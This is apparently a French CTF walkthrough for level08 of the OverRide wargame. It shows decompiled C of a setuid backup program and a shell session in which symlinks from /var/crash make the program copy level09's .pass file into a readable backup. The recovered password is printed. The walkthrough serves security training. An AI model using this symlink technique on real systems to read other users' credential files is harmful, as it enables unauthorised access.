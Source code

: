 # **Level 08**

Code decompiler,
```
void log_wrapper(FILE *param_1,char *param_2,char *param_3)

{
  char cVar1;
  size_t sVar2;
  ulong uVar3;
  ulong uVar4;
  char *pcVar5;
  long in_FS_OFFSET;
  byte bVar6;
  undefined8 local_120;
  char local_118 [264];
  long local_10;
  
  bVar6 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_120 = param_1;
  strcpy(local_118,param_2);
  uVar3 = 0xffffffffffffffff;
  pcVar5 = local_118;
  do {
    if (uVar3 == 0) break;
    uVar3 = uVar3 - 1;
    cVar1 = *pcVar5;
    pcVar5 = pcVar5 + (ulong)bVar6 * -2 + 1;
  } while (cVar1 != '\0');
  uVar4 = 0xffffffffffffffff;
  pcVar5 = local_118;
  do {
    if (uVar4 == 0) break;
    uVar4 = uVar4 - 1;
    cVar1 = *pcVar5;
    pcVar5 = pcVar5 + (ulong)bVar6 * -2 + 1;
  } while (cVar1 != '\0');
  snprintf(local_118 + (~uVar4 - 1),0xfe - (~uVar3 - 1),param_3);
  sVar2 = strcspn(local_118,"\n");
  local_118[sVar2] = '\0';
  fprintf(local_120,"LOG: %s\n",local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
}



undefined8 main(int param_1,undefined8 *param_2)

{
  char cVar1;
  int __fd;
  int iVar2;
  FILE *pFVar3;
  FILE *__stream;
  ulong uVar4;
  undefined8 *puVar5;
  long in_FS_OFFSET;
  byte bVar6;
  char local_79;
  undefined8 local_78;
  undefined2 local_70;
  char local_6e;
  long local_10;
  
  bVar6 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_79 = -1;
  if (param_1 != 2) {
    printf("Usage: %s filename\n",*param_2);
  }
  pFVar3 = fopen("./backups/.log","w");
  if (pFVar3 == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n","./backups/.log");
                    // WARNING: Subroutine does not return
    exit(1);
  }
  log_wrapper(pFVar3,"Starting back up: ",param_2[1]);
  __stream = fopen((char *)param_2[1],"r");
  if (__stream == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n",param_2[1]);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  local_78._0_1_ = '.';
  local_78._1_1_ = '/';
  local_78._2_1_ = 'b';
  local_78._3_1_ = 'a';
  local_78._4_1_ = 'c';
  local_78._5_1_ = 'k';
  local_78._6_1_ = 'u';
  local_78._7_1_ = 'p';
  local_70._0_1_ = 's';
  local_70._1_1_ = '/';
  local_6e = '\0';
  uVar4 = 0xffffffffffffffff;
  puVar5 = &local_78;
  do {
    if (uVar4 == 0) break;
    uVar4 = uVar4 - 1;
    cVar1 = *(char *)puVar5;
    puVar5 = (undefined8 *)((long)puVar5 + (ulong)bVar6 * -2 + 1);
  } while (cVar1 != '\0');
  strncat((char *)&local_78,(char *)param_2[1],99 - (~uVar4 - 1));
  __fd = open((char *)&local_78,0xc1,0x1b0);
  if (__fd < 0) {
    printf("ERROR: Failed to open %s%s\n","./backups/",param_2[1]);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  while( true ) {
    iVar2 = fgetc(__stream);
    local_79 = (char)iVar2;
    if (local_79 == -1) break;
    write(__fd,&local_79,1);
  }
  log_wrapper(pFVar3,"Finished back up ",param_2[1]);
  fclose(__stream);
  close(__fd);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return 0;
}
```
En regardant dans le `dossier courant` du level08, on voit en plus de l'executable, un `dossier backups` avec un fichier .log.
en executant le code, on voit qu'il attend un fichier en argument,
```
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
```
Si on essaye de lui passer le fichier .log en argument,
```
level08@OverRide:~$ ./level08 backups/.log 
ERROR: Failed to open ./backups/backups/.log
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: backups/.log
```
On voit qu'il ecrit quand meme dedant, essayons avec un autre fichier.
```
level08@OverRide:~$ ./level08 /var/crash/test
ERROR: Failed to open ./backups//var/crash/test
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: /var/crash/test
```
Encore une fois, l'erreur se retrouve dans le fichier .log.
En lisant le code on voit que le `premier fopen` se fait sur le fichier `.log` et ensuite sur l'`argument` passe en parametre,
Or avec les precedent test, on en conclu que le programme accepte seulement les fichier de son repertoire courant et qu'il n'aime pas les path absolu.
```
level08@OverRide:~$ cd /var/crash
level08@OverRide:/var/crash$ touch test
level08@OverRide:/var/crash$ /home/users/level08/./level08 test 
ERROR: Failed to open ./backups/.log
```
Ici on voit qu'il ne trouve pas le fichier .log.
Essayons donc depuis /var/crash d'ouvrir le fichier .log avec le programme.
Utilisons un `lien symbolique` vers le `dossier backups` et relancons le programme avec test,
```
level08@OverRide:/var/crash$ ln -s /home/users/level08/backups backups
level08@OverRide:/var/crash$ ll
total 0
drwxrwsrwt 1 root    whoopsie  80 Feb 16 13:53 ./
drwxr-xr-x 1 root    root     120 Oct  2  2016 ../
lrwxrwxrwx 1 level08 whoopsie  27 Feb 16 13:53 backups -> /home/users/level08/backups/
-rw-rw-r-- 1 level08 whoopsie   0 Feb 16 13:48 test
```
Execution,
```
level08@OverRide:/var/crash$ /home/users/level08/./level08 test 
level08@OverRide:/var/crash$ ll /home/users/level08/backups/
total 4
drwxrwx---+ 1 level09 users    80 Feb 16 13:53 ./
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ../
-rwxrwx---+ 1 level09 users    55 Feb 16 13:53 .log*
-r--r-----+ 1 level09 users     0 Feb 16 13:53 test

```
Ok, maintenant on sait comment ecrire dans le dossier backups,
Essayons donc maintenant de passer un fichier plus sensible en parametre, comme le password de level09,
toujours en passant par un `symlink`.
```
level08@OverRide:/var/crash$ ln -s /home/users/level09/.pass pass
level08@OverRide:/var/crash$ ll
total 0
drwxrwsrwt 1 root    whoopsie 100 Feb 16 13:56 ./
drwxr-xr-x 1 root    root     120 Oct  2  2016 ../
lrwxrwxrwx 1 level08 whoopsie  27 Feb 16 13:53 backups -> /home/users/level08/backups/
lrwxrwxrwx 1 level08 whoopsie  25 Feb 16 13:56 pass -> /home/users/level09/.pass
-rw-rw-r-- 1 level08 whoopsie   0 Feb 16 13:48 test
```
Ensuite, executons le programme avec le fichier pass.
```
level08@OverRide:/var/crash$ /home/users/level08/./level08 pass
level08@OverRide:/var/crash$ cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
Essayons le password,
```
level08@OverRide:/var/crash$ su level09
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```
> ### NEXT : [Level 09](/level09/walkthrough.md)
